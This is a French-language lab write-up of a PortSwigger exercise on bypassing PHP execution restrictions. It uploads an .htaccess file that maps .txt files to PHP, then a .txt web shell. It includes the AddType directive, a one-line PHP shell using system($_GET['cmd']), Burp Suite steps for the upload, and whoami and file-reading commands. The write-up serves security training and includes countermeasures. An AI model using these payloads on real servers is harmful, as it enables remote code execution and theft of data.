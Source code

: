 🧨 Mission 4.6 – Web Shell via .htaccess Drop
🎯 Objectif de la mission
Contourner une protection serveur empêchant l’exécution de fichiers PHP en uploadant :

Un fichier web shell avec une extension inoffensive (.txt)

Un fichier .htaccess configurant Apache pour interpréter ces fichiers comme du PHP

🧠 Compétences développées
🔸1. Compréhension du fonctionnement de .htaccess
Petit fichier de configuration local pour le serveur Apache

Permet de surcharger les règles globales (ex. : extensions, répertoires)

Clé pour forcer des comportements interdits

🔸2. Manipulation manuelle d’un upload via Burp Suite
Modification du champ filename=".htaccess"

Insertion directe du payload dans la requête multipart/form-data

Adaptation des en-têtes MIME pour masquer le vrai contenu

🔸3. Contournement par double attaque
Bypass d’analyse d’extension (.txt accepté)

Contournement via changement du type MIME Apache

🔸4. Exécution de commandes système (RCE)
Utilisation de ?cmd=whoami pour tester l’exécution

Extraction du contenu d’un fichier (cat /home/carlos/secret)

🔍 Payloads utilisés
📂 .htaccess (modifie le comportement du dossier)
bash
Copier
Modifier
AddType application/x-httpd-php .txt
📄 shell.txt (fichier interprété comme du PHP)
php
Copier
Modifier
<?php echo "TXT Shell OK"; system($_GET['cmd']); ?>
✅ Résultat
Étape	Statut
Fichier .htaccess uploadé	✅
Web shell .txt accepté	✅
Interprétation PHP confirmée (?cmd=whoami)	✅
Récupération du secret (cat /home/carlos/secret)	✅
Lab officiellement validé sur PortSwigger	🟢 YES!

🔐 Risque de sécurité
Élément	Détail
🚨 Gravité	Élevée : accès distant au serveur
🌐 Réaliste	Oui, dans des apps custom ou mal sécurisées
🛡️ Contre-mesures	Bloquer .htaccess, désactiver AddType, valider contenu + extension + MIME

🏅 Badge débloqué
🧾🔥 Rewrite Wizard
“Tu as redéfini les règles du jeu pour obtenir ce que le serveur ne voulait pas t’offrir.”

🎯 Bravo ! Tu veux enchaîner avec la Mission 4.7 : contournement via Content-Type/MIME spoofing ?